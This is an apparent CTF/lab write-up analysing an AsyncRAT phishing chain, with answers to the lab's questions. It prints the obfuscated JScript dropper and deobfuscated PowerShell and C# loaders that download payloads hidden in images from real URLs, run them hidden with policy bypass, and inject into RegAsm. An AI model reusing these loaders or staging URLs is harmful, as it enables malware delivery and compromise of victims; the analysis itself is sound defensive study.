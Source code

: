 # AsyncRAT Lab
---
![alt text](image.png)

Exercise lab: [here](https://cyberdefenders.org/blueteam-ctf-challenges/asyncrat/)

## Lab Introduction

![alt text](image-1.png)

You are a cybersecurity analyst at Globex Corp. A concerning report has come in: an employee opened an email with an attachment claiming to be an order specification, which actually harbored a JavaScript file designed to deploy AsyncRAT.

This malware evades detection with alarming efficiency. To secure Globex's network and data, you must analyze the attachment, reverse-engineer the AsyncRAT’s obfuscation techniques, and determine the scope of AsyncRAT's infiltration.

## Analyze

You can open Malicious File with VScode:

![alt text](image-2.png)

But it has been obfuscate and you must [deobfuscate](https://deobfuscate.relative.im/) it to clear code.

```javascript
var isTaskRunning = false;
function reverseString(inputString) {
  return inputString.split('').reverse().join('');
}

var decodedString =
  reverseString(
    '==Aa0FGUlhXRw1WZ0RCIk5WYt12\u265A\u265Bj1CIlxWam9mcQ9mTtAyczFGc5JGI5NWas9Gcu9Wa0V3YlhXZtAi\u265A\u265BlRGZphGIlxWe0N3dvRm\u265A\u265BpdXLgUGel5C\u265A\u265BsVGazJXZ39Gc7kyclRXeCRm\u265A\u265Bh1W\u265A\u265BvNGJgwCa0FGUlhXRw1WZ0RCKzVGd5JE\u265A\u265BsFUZ0lmcXpjOdVG\u265A\u265BpZkLPlkLtVGdzl3U\u265A\u265BtjIlhXZuICIrASKocm\u265A\u265BpJHdT9GVukCKklWdHdXZOpjOdRWa1dkLtVGdzl3U\u265A\u265BByKgkCKoRXYQBX\u265A\u265BlRFdldkO60Fa0FGUlhXRw1WZ0RyOpQm\u265A\u265Bh1W\u265A\u265BvNEN2U2chJGJocm\u265A\u265BpJHdTRjNlNXYC12\u265A\u265ByZkO60FdyVmdu92Qu0WZ0NXeTtFI9AyclRXeCRm\u265A\u265Bh1W\u265A\u265BvNGJ7Qm\u265A\u265Bh1W\u265A\u265BvNEN2U2chJGJg4WavpWL9Qm\u265A\u265Bh1W\u265A\u265BvNEN2U2chJGJ7kCZuFW\u265A\u265Bt92Q0YTZzFmYkgSZzJXZ2VmU6oTX5FmcyF2W7kCK5FmcyFkchh2QvRlLpgGdn5WZMRjNlNXYiRCIsgXZk5WS0JXY0NHJocm\u265A\u265BpJHdzJWdT5Cd4VGVldWYtlGJg0DIk5WYt12\u265A\u265BDRjNlNXYiRyO4VGZulEdyFGdzRCItACelRm\u265A\u265BJRm\u265A\u265BlRCI9ACa0dm\u265A\u265BlxEN2U2chJGJ7gGdn5WZM5yZhxmR0JXY0NHJg0zKggXZk5WS0JXY0NHJ7gXZk5WS0JXY0NHJgQ3ZtACelRm\u265A\u265BJRm\u265A\u265BlRCIk5WYtACMgU2ZtACelRm\u265A\u265BJRnchR3cksTKnFG\u265A\u265BGRm\u265A\u265BlRCKm9EelRm\u265A\u265BJ5Cd4VGVldWYtlGJg0DI4VGZulEZuVGJ7kyZhxmR0JXY0NHJoY2T4VGZulkL0hXZUV2Zh1WakASPggXZk5WS0JXY0NHJ7ciP+QkTF9FN2U0UBJEP8cCI9AyZhxmR0JXY0NHJ7kyclRXeCV2Zh1WakgyZulmc0NFdldkL4YEVVpjOddm\u265A\u265BpR2\u265A\u265Bj5WRuQHelRlLtVGdzl3U\u265A\u265BBSPgQHelRVZnFW\u265A\u265BpRyOpwmcVV2Zh1WakgSY0FGRkF2\u265A\u265Bs52dvRkL05WZpx2QiV2dkASPgMXZ0lnQldWYtlGJ7Qn\u265A\u265BllG\u265A\u265BDJWZX5Cdl5kLtVGdzl3UgQ3YlpmYP1ydl5EI9ACduVWasNkYldHJ7cyZuBnLrZzSzQlerhHczllcvMXZnFW\u265A\u265Bp9y\u265A\u265Bj5CZyJGcuIm\u265A\u265BkN2Zv8iOzBHd0h2Jg0DIsJXVldWYtlGJ'
  );

var shellCommand =
  reverseString("' = ogidoC$") +
  decodedString +
  "';" +
  reverseString('S[ = dxujWO$') +
  reverseString('eT.metsy') +
  reverseString('nU::]gnidocnE.tx') +
  reverseString('eG.edoci') +
  reverseString('C.metsyS[(gnirtSt') +
  reverseString('6esaBmorF::]trevno') +
  reverseString('lper.ogidoc$(gnirtS4') +
  reverseString(';)) )'b','\u265A\u265B'(eca') +
  reverseString('niw- exe.llehsrewop') +
  reverseString('exe- neddih elytswod') +
  reverseString('N- ssapyb ycilopnoituc') +
  reverseString('moc- eliforPo') +
  reverseString('dxujWO$ dnam');

var wScriptShell = 'WScript.Shell';

var shellObject = new ActiveXObject(wScriptShell);

shellObject.Run(
  'powershell -command "' + shellCommand + '"',
  0,
  false
);
```

Run it into Chrome Console you can receive an other malicious code. Purpose of this technique used to Defense Evasion.

![alt text](image-3.png)

Finally malicious code ([made beautiful](https://beautifier.io/)):

```powershell
$imageUrl = 'https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png';
$webClient = New-Object System.Net.WebClient;
$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
$endIndex = $imageText.IndexOf($endFlag);
$startIndex -ge 0 -and $endIndex -gt $startIndex;
$startIndex += $startFlag.Length;
$base64Length = $endIndex - $startIndex;
$base64Command = $imageText.Substring($startIndex, $base64Length).ToCharArray();
[array]::Reverse($base64Command);$base64Command=-join $base64Command;
$commandBytes = [System.Convert]::FromBase64String($base64Command);
$tempExePath = [System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";
[System.IO.File]::WriteAllBytes($tempExePath, $commandBytes);
powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $tempExePath
```

When i access into https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png, it really don't active a long time. If it ran up 1 times in this machine, i will analyze continue at `[System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";`

**Q1: In the process of dissecting the AsyncRAT payload, you discover a variable in the PowerShell script shrouded in complexity. What is the name of this variable that conceals the malicious obfuscated code?**

> **$Codigo**

**Q2: As you trace the AsyncRAT’s steps, you come across a pivotal moment where it reaches out to the internet, fetching the next phase of its invasion. Identify the URL used to download the second stage of this malicious campaign.**

> **https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png**

**Q3: Within the chaos of encoded data retrieved during your investigation, there's a string that signals the beginning of the actual encoded code. What is this marker indicating where the encoded treasure lies within the downloaded file?**

> **<<BASE64_START>>**

## Continue Analyze

Access to Temp folder but something loss

![alt text](image-4.png)

![alt text](image-6.png)

Some osint tool is so useful in this case.

![alt text](image-7.png)

You can get image [here](rYspxkzT3K6k.png)

![alt text](image-8.png)

Decode base64 and extract into a file executable to analysis. File [here](Execution)

**Q4: The second stage of AsyncRAT has been meticulously unpacked, revealing an extracted Portable Executable (PE). To understand this stage's uniqueness, what is the MD5 hash of this extracted PE?**

> MD5: **c1aa076ca869a7520ca2e003b7c02ab3**

**Q5: AsyncRAT seeks to embed itself within the system for long-term espionage. During your sweep, you stumble upon a registry key intended for persistence. Can you provide the full path of this registry key where the malware attempts to solidify its presence?**

![alt text](image-10.png)

> **HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run**

**Q6: Your analysis doesn't stop at the second stage; the malware has more secrets to unveil. A third stage is downloaded from a URL you need to uncover. What is the URL from which the malware downloads the third stage?**

![alt text](image-11.png)

> **https://web.archive.org/web/20240701132151if_/https://gcdnb.pbrd.co/images/L3GM1EngRrYs.png**

🙂web.archive.org, I fell already taken a one step ahead

**Q7: With the third stage of AsyncRAT now in focus, another Portable Executable (PE) comes to light. For a comprehensive understanding of this stage, what is the MD5 hash of the extracted PE from the third stage?**

After you access above URL, you can download an other [image](L3GM1EngRrYs.png).

```C#
string address = Strings.StrReverse("gnp.sYrRgnE1MG3L/segami/oc.drbp.bndcg//:sptth/_fi15123110704202/bew/gro.evihcra.bew//:sptth");
			byte[] bytes = new WebClient().DownloadData(address);
			string @string = Encoding.UTF8.GetString(bytes);
			string text = "<<BASE64_START>>";
			string value = "<<BASE64_END>>";
			int num = @string.IndexOf(text);
			int num2 = @string.IndexOf(value);
			if (num >= 0 && num2 > num)
			{
				num += text.Length;
				int length = num2 - num;
				string text2 = @string.Substring(num, length);
				string text3 = new WebClient().DownloadString(Strings.StrReverse(Conversions.ToString(LAbWJK)));
				text3 = Strings.StrReverse(text3);
				new WebClient().Encoding = Encoding.UTF8;
				string text4 = text2;
				text4 = Strings.StrReverse(text4);
				string str = "C:\\Windows\\Microsoft.NET\\Framework";
				str += "\\v4.0.30319";
				AppDomain.CurrentDomain.Load(Convert.FromBase64String(text4)).GetType("Fiber.Class1").GetMethod("run").Invoke(null, new object[]
				{
					str + "\\RegAsm.exe",
					Convert.FromBase64String(text3)
				});
			}
```

Similar decode module with previous image, I have exe file: [here](Execution2)

![alt text](image-12.png)

> **3c63488040bb51090f2287418b3d157d**